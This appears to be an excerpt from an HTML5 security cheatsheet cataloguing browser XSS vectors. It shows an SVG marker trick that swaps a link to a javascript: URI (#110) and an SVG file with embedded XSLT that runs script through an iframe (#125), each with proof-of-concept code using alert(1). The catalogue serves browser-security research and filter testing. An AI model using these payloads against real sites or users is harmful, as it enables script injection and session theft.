 *   opera 10.x
*   opera 12.0

*   xss
*   javascript
*   svg
*   css
*   xml
*   style

*   [#129](#129)

reporter：LeverOne

### Passive SVG JavaScript execution via style injection (2)[#110](#110)[test](test/#110)

This example shows how SVG markers allow insertion of external links with JavaScript URI into the current document.


```
<svg xmlns="http://www.w3.org/2000/svg"> <path d="M0,0" style="marker-start:url(test4.svg#a)"/> </svg>``<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"> <marker id="a" markerWidth="1000" markerHeight="1000" refX="0" refY="0"> <a xlink:href="http://google.com"> <set attributeName="xlink:href" to="javascript:alert(1)" begin="1s" /> <rect width="1000" height="1000" fill="white"/> </a> </marker> </svg>required_mime: image/svg+xmlcrossdomain: 1path: [http://html5sec.org/test4.svg](http://html5sec.org/test4.svg)name: test4.svg
```

*   opera 10.x
*   opera 11.52

*   xss
*   javascript
*   svg
*   css
*   xml
*   style

reporter：LeverOne

### SVG chameleon behavior via embedded XSLT[#125](#125)[test](test/#125)

This SVG chameleon file can be embedded via &lt;embed&gt; on most, and via &lt;img&gt; on most modern browsers. Thanks to the embedded XSLT stylesheet, it will change it's appearance, depending on how it is embedded or displayed. In an &lt;img&gt; tag it just shows a red dot. But opened directly or via an &lt;iframe&gt; or &lt;embed&gt;, the XSLT turns all SVG into (X)HTML and an alert will show. While most modern browsers show this behavior, Opera will completely mess it up, and show an alert when used via &lt;embed&gt; and an &lt;iframe&gt; when used via &lt;img&gt; (!). Chrome will show a broken image and an alert.


```
<?xml version="1.0"?> <?xml-stylesheet type="text/xml" href="#stylesheet"?> <!DOCTYPE doc [ <!ATTLIST xsl:stylesheet id ID #REQUIRED>]> <svg xmlns="http://www.w3.org/2000/svg"> <xsl:stylesheet id="stylesheet" version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"> <xsl:template match="/"> <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert(1)"></iframe> </xsl:template> </xsl:stylesheet> <circle fill="red" r="40"></circle> </svg>
```
